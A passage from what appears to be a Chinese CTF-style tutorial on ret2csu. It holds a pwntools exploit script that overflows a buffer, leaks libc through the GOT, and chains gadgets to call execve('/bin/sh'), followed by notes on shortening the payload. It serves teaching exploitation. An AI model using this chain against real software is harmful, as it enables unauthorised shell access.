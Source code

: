 ```python
    # rbp should be 1,enable not to jump
    # r12 should be the function we want to call
    # rdi=edi=r15d
    # rsi=r14
    # rdx=r13
    payload = 'a' * 0x80 + fakeebp
    payload += p64(csu_end_addr) + p64(rbx) + p64(rbp) + p64(r12) + p64(
        r13) + p64(r14) + p64(r15)
    payload += p64(csu_front_addr)
    payload += 'a' * 0x38
    payload += p64(last)
    sh.send(payload)
    sleep(1)


sh.recvuntil('Hello, World\n')
## RDI, RSI, RDX, RCX, R8, R9, more on the stack
## write(1,write_got,8)
csu(0, 1, write_got, 8, write_got, 1, main_addr)

write_addr = u64(sh.recv(8))
libc = LibcSearcher('write', write_addr)
libc_base = write_addr - libc.dump('write')
execve_addr = libc_base + libc.dump('execve')
log.success('execve_addr ' + hex(execve_addr))
##gdb.attach(sh)

## read(0,bss_base,16)
## read execve_addr and /bin/sh\x00
sh.recvuntil('Hello, World\n')
csu(0, 1, read_got, 16, bss_base, 0, main_addr)
sh.send(p64(execve_addr) + '/bin/sh\x00')

sh.recvuntil('Hello, World\n')
## execve(bss_base+8)
csu(0, 1, bss_base, 0, 0, bss_base + 8, main_addr)
sh.interactive()
```

### 思考

#### 改進

在上面的時候，我們直接利用了這個通用 gadgets，其輸入的字節長度爲 128。但是，並不是所有的程序漏洞都可以讓我們輸入這麼長的字節。那麼當允許我們輸入的字節數較少的時候，我們該怎麼有什麼辦法呢？下面給出了幾個方法

##### 改進1 - 提前控制 rbx 與 rbp

可以看到在我們之前的利用中，我們利用這兩個寄存器的值的主要是爲了滿足 cmp 的條件，並進行跳轉。如果我們可以提前控制這兩個數值，那麼我們就可以減少 16 字節，即我們所需的字節數只需要112。

##### 改進2-多次利用

